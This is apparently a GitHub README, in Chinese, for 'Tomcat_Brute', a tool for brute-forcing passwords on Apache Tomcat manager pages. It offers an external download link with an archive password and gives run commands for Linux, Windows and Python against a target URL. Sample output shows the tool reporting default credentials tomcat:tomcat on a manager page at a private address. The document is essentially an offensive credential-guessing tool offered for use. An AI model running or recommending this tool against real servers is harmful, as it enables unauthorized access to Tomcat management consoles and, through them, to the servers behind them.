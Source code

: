# Tomcat_Brute

```
在下午一时兴起写的一款针对Tomcat口令爆破的工具。
```
国内下载：https://www.lanzoub.com/iCHRJ01ptfsj 密码:iis.cm
#
## Linux
```
 chmod +x Tomcat_Brute 
./Tomcat_Brute     https://target.com

[+] Tomcat  http://192.168.1.123:8080/manager/html      账号密码为：tomcat:tomcat
```
![image](./img/Linux_20220319202859.png?raw=true)
#
## Windows
```
Tomcat_Brute.exe     https://target.com

[+] Tomcat  http://192.168.1.123:8080/manager/html      账号密码为：tomcat:tomcat
```
![image](./img/20220319200649.png?raw=true)
![image](./img/20220319200838.png?raw=true)
#
## Python3
```
python3 Tomcat_Brute.py     https://target.com

[+] Tomcat  http://192.168.1.123:8080/manager/html      账号密码为：tomcat:tomcat
```
![image](./img/Python_20220319203539.png?raw=true)
